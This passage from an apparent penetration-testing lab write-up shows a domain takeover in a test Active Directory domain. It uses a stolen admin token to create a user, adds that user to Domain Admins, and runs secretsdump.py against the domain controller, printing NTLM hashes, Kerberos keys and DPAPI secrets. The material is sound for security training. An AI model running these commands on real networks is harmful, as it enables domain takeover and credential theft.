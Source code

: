 ## Domain Compromise

Since we have a domain admin delegation token, we can use it to create a new user and add it to the domain admins group.

```batch
C:\Windows\system32>net user /add hawkeye Password1@ /domain
net user /add hawkeye Password1@ /domain
The request will be processed at a domain controller for domain MARVEL.local.

The command completed successfully.
```

If we check the domain admins at this moment, there is no `hawkeye` since they are a domain user at this point.

![[Hawkeye Domain User.png]]

However, we can use the same token to add `hawkeye` to the domain admins group as follow.

```batch
C:\Windows\system32>net group "Domain Admins" hawkeye /add /domain
net group "Domain Admins" hawkeye /add /domain
The request will be processed at a domain controller for domain MARVEL.local.

The command completed successfully.
```

Now if we check the domain admins group, we can see `hawkeye` has been added to it.

![[Hawkeye Domain Admin.png]]

Then we can use `secretsdump.py` with the newly added credentials to dump the secrets of the domain controller (`192.168.23.130`) and compromise the domain.

```bash
$ secretsdump.py MARVEL.local/hawkeye:'Password1@'@192.168.23.130       
Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation

[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0x2dbe94cf6d9414061188dd2d0c4fbf9a
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:920ae267e048417fcfe00f49ecbd4b33:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction failed: string index out of range
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
MARVEL\HYDRA-DC$:aes256-cts-hmac-sha1-96:d1ac4b2be983bdd0e86367c4e6fb707bc9d40b01f8473f1e845c669bdf454e26
MARVEL\HYDRA-DC$:aes128-cts-hmac-sha1-96:fdb59c704c1f760379313776bfda48f6
MARVEL\HYDRA-DC$:des-cbc-md5:98794091ba58e537
MARVEL\HYDRA-DC$:aad3b435b51404eeaad3b435b51404ee:69646703f8dc139544866f750f803717:::
[*] DPAPI_SYSTEM 
dpapi_machinekey:0x1e5b4524e77c6d22171966bea7726c6011d89f93
dpapi_userkey:0x6cc7e0ad6631f1b4e0245dbdcff16fb0796758c5
[*] NL$KM 
 0000   83 9E 18 DE 5F A1 79 38  CA 05 20 13 81 A6 EF A4   ...._.y8.. .....
 0010   A1 2F EB CD 9E 5C 84 95  58 45 38 E7 EA 04 8C 22   ./...\..XE8...."
 0020   A4 EA A2 D8 14 0B 08 B2  93 EA 91 20 38 C1 BC 77   ........... 8..w
 0030   B0 33 AD 3A 1B 9A B3 11  3C 1D C0 36 B9 5F 78 ED   .3.:....<..6._x.
NL$KM:839e18de5fa17938ca05201381a6efa4a12febcd9e5c8495584538e7ea048c22a4eaa2d8140b08b293ea912038c1bc77b033ad3a1b9ab3113c1dc036b95f78ed
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
```